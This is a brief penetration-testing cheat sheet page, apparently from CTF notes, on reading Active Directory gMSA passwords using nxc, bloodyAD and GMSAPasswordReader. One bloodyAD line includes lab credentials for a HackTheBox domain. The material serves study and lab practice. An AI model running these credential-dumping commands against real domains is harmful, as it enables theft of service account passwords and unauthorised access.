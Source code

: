 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ReadGMSAPassword

## Linux

{% tabs %}
{% tab title="NXC" %}
```bash
nxc ldap <FQDN> -u <user> -p <pass> -k --gmsa
```
{% endtab %}

{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example using NXC check [Rebound](../../../boxes/insane/rebound.md#gmsa).

## Windows

{% tabs %}
{% tab title="GMSAPasswordReader" %}
{% code overflow="wrap" %}
```powershell
.\GMSAPasswordReader.exe --accountname delegator$
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="gMSADumper" %}
{% embed url="https://github.com/micahvandeusen/gMSADumper" %}
{% endtab %}

{% tab title="GMSAPasswordReader" %}
{% embed url="https://github.com/rvazarkar/GMSAPasswordReader" %}
{% endtab %}
{% endtabs %}
